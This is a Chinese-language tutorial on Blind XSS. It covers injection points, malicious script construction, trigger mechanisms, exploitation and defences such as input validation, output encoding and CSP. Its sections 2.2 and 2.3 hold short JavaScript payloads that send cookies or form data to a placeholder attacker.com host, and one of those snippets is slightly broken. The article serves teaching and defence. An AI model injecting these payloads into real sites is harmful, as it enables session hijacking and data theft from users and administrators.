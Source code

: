 ### Blind XSS攻击检测中的攻击技术详解

Blind XSS（盲跨站脚本攻击）是一种特殊类型的跨站脚本攻击（XSS），其特点是攻击者无法直接观察到攻击结果，而是通过间接方式获取目标系统的敏感信息。Blind XSS通常发生在目标系统的后端或管理员界面，攻击者通过注入恶意脚本，等待目标用户（如管理员）访问特定页面时触发脚本，从而窃取信息或执行恶意操作。本文将详细说明Blind XSS攻击检测中的常见攻击手法和利用方式，重点关注Web安全方面。

#### 1. Blind XSS的基本原理

Blind XSS与传统的XSS攻击类似，都是通过在Web页面中注入恶意脚本来实现攻击。然而，Blind XSS的特殊之处在于攻击者无法直接看到注入的脚本是否成功执行，而是需要依赖目标用户（如管理员）的交互来触发脚本。因此，Blind XSS通常用于攻击那些只有特定用户（如管理员）才能访问的页面或功能。

#### 2. Blind XSS的常见攻击手法

##### 2.1 注入点的选择

Blind XSS攻击的第一步是寻找合适的注入点。常见的注入点包括：

- **用户输入字段**：如评论框、搜索框、注册表单等，攻击者可以在这些字段中注入恶意脚本。
- **HTTP头**：如User-Agent、Referer等，攻击者可以通过修改HTTP头来注入恶意脚本。
- **URL参数**：攻击者可以通过修改URL参数来注入恶意脚本。

##### 2.2 恶意脚本的构造

Blind XSS攻击的核心是构造能够窃取信息或执行恶意操作的脚本。常见的恶意脚本包括：

- **窃取Cookie**：通过注入的脚本窃取用户的Cookie，攻击者可以利用这些Cookie进行会话劫持。
  ```javascript
  <script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
  ```
- **窃取表单数据**：通过注入的脚本窃取用户输入的表单数据，如用户名、密码等。
  ```javascript
  <script>document.forms[0].onsubmit=function(){document.location='http://attacker.com/steal?data='+document.forms[0].value;}</script>
  ```
- **重定向**：通过注入的脚本将用户重定向到恶意网站。
  ```javascript
  <script>document.location='http://attacker.com';</script>
  ```

##### 2.3 触发机制

由于Blind XSS攻击者无法直接观察到攻击结果，因此需要设计触发机制来确保恶意脚本能够被执行。常见的触发机制包括：

- **时间延迟**：通过设置时间延迟，确保恶意脚本在目标用户访问特定页面时执行。
  ```javascript
  <script>setTimeout(function(){document.location='http://attacker.com/steal?cookie='+document.cookie;}, 5000);</script>
  ```
- **事件触发**：通过绑定事件（如点击、鼠标移动等）来触发恶意脚本。
  ```javascript
  <script>document.body.onclick=function(){document.location='http://attacker.com/steal?cookie='+document.cookie;}</script>
  ```

#### 3. Blind XSS的利用方式

##### 3.1 窃取管理员Cookie

攻击者可以通过Blind XSS攻击窃取管理员的Cookie，从而获得管理员权限。例如，攻击者在评论框中注入恶意脚本，当管理员查看评论时，脚本被执行，窃取管理员的Cookie并发送到攻击者的服务器。

##### 3.2 窃取敏感信息

攻击者可以通过Blind XSS攻击窃取用户的敏感信息，如用户名、密码、信用卡信息等。例如，攻击者在注册表单中注入恶意脚本，当用户提交表单时，脚本被执行，窃取用户输入的信息并发送到攻击者的服务器。

##### 3.3 执行恶意操作

攻击者可以通过Blind XSS攻击执行恶意操作，如修改用户设置、删除数据等。例如，攻击者在用户设置页面中注入恶意脚本，当用户访问设置页面时，脚本被执行，修改用户的设置或删除用户的数据。

#### 4. Blind XSS的检测与防御

##### 4.1 检测方法

Blind XSS的检测通常需要结合主动扫描和被动监控。常见的检测方法包括：

- **主动扫描**：使用自动化工具扫描Web应用程序，寻找潜在的Blind XSS漏洞。
- **被动监控**：监控Web应用程序的日志和流量，寻找异常的请求和响应。

##### 4.2 防御措施

为了防止Blind XSS攻击，可以采取以下防御措施：

- **输入验证**：对用户输入进行严格的验证，确保输入内容符合预期格式。
- **输出编码**：在输出用户输入内容时，进行适当的编码，防止恶意脚本被执行。
- **内容安全策略（CSP）**：通过CSP限制脚本的执行，防止恶意脚本被注入。
- **HTTP头安全**：设置安全的HTTP头，如X-XSS-Protection、Content-Security-Policy等，防止XSS攻击。

#### 5. 总结

Blind XSS攻击是一种隐蔽且危险的Web安全威胁，攻击者通过注入恶意脚本，等待目标用户触发脚本，从而窃取信息或执行恶意操作。为了有效防御Blind XSS攻击，开发者需要采取严格的输入验证、输出编码、内容安全策略等防御措施，并定期进行安全检测和监控。通过综合运用这些方法，可以显著降低Blind XSS攻击的风险，保护Web应用程序的安全。

---

*文档生成时间: 2025-03-11 16:24:49*






















